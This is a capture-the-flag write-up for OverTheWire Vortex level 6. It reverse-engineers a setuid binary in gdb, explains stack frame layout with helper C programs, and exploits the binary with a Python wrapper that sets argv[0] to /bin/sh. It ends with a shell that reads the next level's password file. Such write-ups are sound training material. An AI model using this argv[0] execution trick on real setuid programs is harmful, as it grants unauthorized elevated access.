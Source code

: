 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 6"
---
```


![Logo](/assets/images/vortex6.png)

## Context

For [this level](http://overthewire.org/wargames/vortex/vortex6.html) we have just the binary is available, not the source code and some reversing tutorials are suggested. First, we'll download it and study it locally with _`gdb`_.
```bash
(gdb) set disassembly-flavor intel
(gdb) disassemble main 
Dump of assembler code for function main:
   0x08048446 <+0>: push   ebp
   0x08048447 <+1>: mov    ebp,esp
   0x08048449 <+3>: and    esp,0xfffffff0
   0x0804844c <+6>: sub    esp,0x10
   0x0804844f <+9>: mov    eax,DWORD PTR [ebp+0x10]
   0x08048452 <+12>: mov    eax,DWORD PTR [eax]
   0x08048454 <+14>: test   eax,eax
   0x08048456 <+16>: je     0x8048465 <main>
   0x08048458 <+18>: mov    eax,DWORD PTR [ebp+0xc]
   0x0804845b <+21>: mov    eax,DWORD PTR [eax]
   0x0804845d <+23>: mov    DWORD PTR [esp],eax
   0x08048460 <+26>: call   0x8048424 <restart>
   0x08048465 <+31>: mov    eax,DWORD PTR [ebp+0x10]
   0x08048468 <+34>: add    eax,0xc
   0x0804846b <+37>: mov    eax,DWORD PTR [eax]
   0x0804846d <+39>: mov    DWORD PTR [esp],eax
   0x08048470 <+42>: call   0x8048354 <printf@plt>
   0x08048475 <+47>: mov    DWORD PTR [esp],0x7325
   0x0804847c <+54>: call   0x8048334 <_exit@plt>
End of assembler dump.
(gdb) disassemble restart 
Dump of assembler code for function restart:
   0x08048424 <+0>: push   ebp
   0x08048425 <+1>: mov    ebp,esp
   0x08048427 <+3>: sub    esp,0x18
   0x0804842a <+6>: mov    DWORD PTR [esp+0x8],0x0
   0x08048432 <+14>: mov    eax,DWORD PTR [ebp+0x8]
   0x08048435 <+17>: mov    DWORD PTR [esp+0x4],eax
   0x08048439 <+21>: mov    eax,DWORD PTR [ebp+0x8]
   0x0804843c <+24>: mov    DWORD PTR [esp],eax
   0x0804843f <+27>: call   0x8048344 @lt;execlp@plt>
   0x08048444 <+32>: leave  
   0x08048445 <+33>: ret    
End of assembler dump.
```

After the function prologue and [alignment of stack pointer to 4-byte boundary](https://stackoverflow.com/questions/4175281/what-does-it-mean-to-align-the-stack), 16 bytes are subtracted from _`ESP`_ to make room for local variables. Throughout the code of _`main`_ function, there are references to 2 locations we need to understand: `_ebp+0x10`_ and _`ebp+0x0c`_. [This article](https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames) explains basics about stack frames, while [the next one](http://www.win.tue.nl/~aeb/linux/hh/stack-layout.html) details also the stack layout. The stack layout before calling the main function looks like this:
```
:    :
|    | [ebp + 16] (env - address of env array)
|    | [ebp + 12] (argv - address of argv array)
|    | [ebp + 8]  (argc - number of arguments passed to main)
|    | [ebp + 4]  (return address)
|    | [ebp]      (old ebp value)
|    | [ebp - 4]  (1st local variable)
:    :
```

We can quickly verify this with the following wrapper program, that runs a target program with different arguments. [This thread](https://stackoverflow.com/questions/2114163/reading-a-register-value-into-a-c-variable) shows a way to read registers (_`ebp`_ in our case) with inline assembly from C code compiled with GCC.
```c
#include <stdio .h>
 
int main() {
    register int ebp asm("ebp");    
     
    char **env = *(char***)(ebp + 16);
    char **argv = *(char ***)(ebp + 12);
    int argc = *(int*)(ebp + 8);
     
    printf("[EBP + 16] - First element of env[] array: %s\n", env[0]);
    printf("[EBP + 12] - First element of argv[] array: %s\n", argv[0]); 
    printf("[EBP +  8] - Number of arguments (argc): %d\n", argc);
}
```

And the test wraper: 
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
int main(int argc, char* argv[]) {
 
    char* arg[] = {"ARG0", "ARG1", "ARG2", "ARG3", "ARG4", "ARG5", NULL};
    char* env[] = {"ENV0", "ENV1", "ENV2", "ENV3", NULL};
 
    execve("./layout",arg,env);
}
```

So we have: 
```bash
# gcc layout.c -o layout
# gcc wrap.c -o wrap
# ./wrap 
[EBP + 16] - First element of env[] array: ENV0
[EBP + 12] - First element of argv[] array: ARG0
[EBP +  8] - Number of arguments (argc): 6
``` 

Based on that, we see that the vortex6 binary checks the first environment variable, and if it's not _`NULL`_ it executes the _`restart`_ function with _`argv[0]`_ as parameter. We see that _`reconstruct()`_ function calls _`execlp`_, with first two arguments the value from _`**(ebp+8)`_, and the third one _`NULL`_. When calling restart function, the stack looks like this:
```bash
:    :
|    | [ebp + 12] (2nd argument)
|    | [ebp + 8]  (1st argument)
| RA | [ebp + 4]  (return address)
| FP | [ebp]      (old ebp value)
|    | [ebp - 4]  (1st local variable)
```

So wee see that at _`ebp + 8`_ we have its first argument, which is in fact _`argv[0]`_. Basically the reconstructed function is:
```c
void restart(char *s) {
    execlp(s,s,NULL);
}
```

After reversing the whole functionality, it's easy to exploit the binary using a simple Python wrapper:
```python
import subprocess
 
argv = ['/bin/sh']
 
p = subprocess.Popen(argv, executable = './vortex6.bin')        
p.wait()
```

And tada...
```bash
vortex6@melissa:~$ python /tmp/myl6.py
$ id
uid=5006(vortex6) gid=5006(vortex6) euid=5007(vortex7) groups=5007(vortex7),5006(vortex6)
$ cat /etc/vortex_pass/vortex7
*****
```

